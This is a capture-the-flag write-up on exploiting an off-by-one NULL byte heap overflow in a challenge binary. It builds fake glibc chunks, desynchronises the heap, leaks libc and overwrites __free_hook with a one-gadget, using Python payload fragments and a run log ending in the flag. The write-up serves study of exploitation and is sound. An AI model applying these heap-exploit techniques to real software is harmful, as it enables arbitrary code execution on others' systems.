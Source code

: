 The vulnerability lies in the "Edit hash" functionality and is a classic off-by-one NULL byte overflow:

```c
  read(0, (void *)(table[v0] + 232LL), 0x10uLL);
  result = table[v0];
  *(_BYTE *)(result + 248) = 0;
```

Since the allocated buffers are 0x100 (256) bytes in size, the NULL byte overflow allows to change the 'size' field of an adjacent allocated chunk, moving it from the allocated state (0x101 - 0x1 Present flag) to the free state (0x100).
P.4 allows to control the last 16 bytes of a buffer, which translates into controlling the prev_size field of a (fake in our case) free buffer.

Through the control of the Present flag + the prev_size field and since we control the contents of the buffers that we load, it is possible to completely create a fake chunk and desynchronize the heap. Once the heap is desynchronized, we can force the allocation of new buffers that overlap with existing ones and allow control of the R/W primitive through P.2. P.2 is used both to infoleak the base address of libc and to overwrite the contents of __free_hook with a onegadget from the provided libc.so, therefore leading to arbitrary code execution.

Let's detail the steps for exploitation:

1) Create enough dummy buffers until the allocator starts returning consecutive allocations
   (in the specific case here, no dummy buffers are needed, but we still allocate one to use at the end)

2) Allocate three consecutive buffers that we'll call B1, B2, B3. B3 is the victim buffer, B2 is the attacking buffer (that we'll use to overflow into the size portion of B3) and B1 will contain most of the necessary data to fake the free object.

3) Allocate an extra buffer, B4, to get the bottom chunk out of the way.

4) Once B1 and B2 addresses are known, free B1 and re-allocate it, this time with the proper payload. From the exploit:

```python
payload  = "A"*96
payload += p64(0)
payload += p64(int(buf2_addr, 16) - 80) * 2
payload += p64(0x4141414141414141) * 8
payload += p64(0x140 | 0x1)
payload += p64(int(buf1_addr, 16) + 88) * 2
```

The above payload provides fake FD and BK (self referencing higher up to pass glibc integrity checks) and mirrors the selected fake size (0x140), while stating that the previous buffer is Present (0x1 flag), once again to pass glibc safety checks.

Through P.3 the fake size (0x140) is written to 'prev_size' for B2, which also triggers the overflow:

```python
io.sendline("5")
eat_menu(io)
io.sendline("2")

payload = p64(0x4444444444444444)
payload += p64(0x140)
```


[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7